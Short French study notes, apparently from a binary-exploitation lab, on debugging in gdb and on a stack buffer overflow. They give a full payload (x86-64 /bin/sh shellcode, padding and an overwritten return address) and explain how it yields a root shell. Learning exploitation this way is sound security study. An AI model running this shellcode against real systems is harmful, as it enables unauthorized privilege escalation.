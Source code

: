 layout prev : accès à un mode de vue de stack
 nexti : passer des instructions

ctrl + x + a : quitté le menu layout

run $(python2 -c 'print "\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05" + "a" * 109 + "\x70\xdd\xff\xff\xff\x7f"')

la commande ci-dessus, on commence en mettant du code exécutable permettant de lancé /bin/sh, il fait 27 bytes
ensuite on effectué du padding, dans notre cas, on place 109 "a"
enfin, on place notre addresse de retour trouvé grâce au premier padding, il fait 8 bytes.

la grande particularité c'est qu'un utilisateur n'ayant que quelque droit root, peut ouvrir un sheel ayant les droit root.

